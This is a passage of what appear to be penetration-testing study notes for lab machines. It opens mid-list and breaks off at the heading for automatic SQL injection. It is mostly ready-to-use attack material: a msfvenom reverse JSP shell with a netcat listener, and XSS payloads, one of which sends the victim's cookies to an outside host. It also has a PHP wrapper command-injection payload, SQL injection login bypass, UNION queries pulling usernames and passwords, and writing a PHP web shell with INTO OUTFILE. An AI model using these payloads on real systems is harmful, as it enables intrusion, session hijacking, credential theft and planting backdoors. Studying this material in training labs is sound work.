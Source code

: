 	msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.41 LPORT=4445 -f war > shell.war
	nc -nvlp 4445
	meterpreter > migrate -N winlogon.exe
While in Windows shell: net user tomcat
While in Wondows shell: systeminfo
Privilege escalation: winPEAS and linPEAS
xfreerdp /u:Administrator /p:administratorpassword /v:10.10.130.53

##### Web Application Attacks
Web application enumeration (passive enumeration):
	Inspecting URLs with Firefox"s developer tools
	Inspecting page content (source code and resources) with Firefox"s debugger, including the Pretty-print button and Inspector
	Viewing response headers (servers' responses) with a proxy and Firefox"s Network tool. Servers' headers often reveal the Web server name and version.
	Inspecting sitemaps like robots.txt and sitemap.xml (for example with: curl https://www.google.com/robots.txt)
	Locating administration consoles on standard URLs and ports
Web application assessment tools (active enumeration):
	DIRB (Web content scanner using wordlists to identify pages and directories): dirb http://www.megacorpone.com -r -z 10
	Burp Suite: update to latest version, regenerate CA cert and import it in Firefox
	Nikto, a Web server scanner. Nikto is very loud and can be slow. For example: nikto -host=http://www.megacorpone.com -maxtime=30s
Exploiting Admin consoles:
	DIRB + Burp Intruder
Cross-site scripting (XSS):
	<script>alert("XSS")</script>
	<iframe src=http://10.11.0.4/clientsideattack height="0" width="0"></iframe>
	Steal cookie/sessionid: <script>new Image().src="http://10.11.0.4/cool.jpg?output=" + document.cookie;</script>
Directory traversal vulnerabilities
File inclusion vulnerabilities (local or LFI / remote or RFI)
PHP Wrappers: 10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir")>
SQL injection:
	Identifying SQL injection vulnerabilities: pass a single quote to an input form and see if we get back an error from the backend database
	Authentication bypass: select * from users where name = 'tom' or 1 = 1;#' and password = 'jones'
	If the application throws an error if multimple records are returned, we can use the following: select * from users where name = 'tom' or 1 = 1 LIMIT 1;#
	Enumerating the database: 10.11.0.22/debug.php?id='
	Column number enumeration (trial and error approach): 
		10.11.0.22/debug.php?id=1 order by 1
		10.11.0.22/debug.php?id=1 order by 2
		etc.
		to automated with Burp
	Extracting data from the database with union statements:
		10.11.0.22/debug.php?id=1 union all select 1, 2, 3
		display MariaDB version: 10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
		display the MariaDB database user: 10.11.0.22/debug.php?id=1 union all select 1, 2, user()
		display the layout of the database: 10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
		display the column names of the users table: 10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
		display the username and password columns from the users table: 10.11.0.22/debug.php?id=1 union all select 1, username, password from users
	From SQL injection to code execution:
		Read a file with the "load_file" function: 10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System/drivers/etc/hosts')
		Use the "into OUTFILE" to create a malicious php file in the Web root: 10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo '<pre> . shell_exec($_GET['cmd']) . '</pre>', ?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
		Then pass a command to the newly created backdoor.php file: 10.11.0.22/backdoor.php?cmd=ipconfig
	Automatic SQL injection: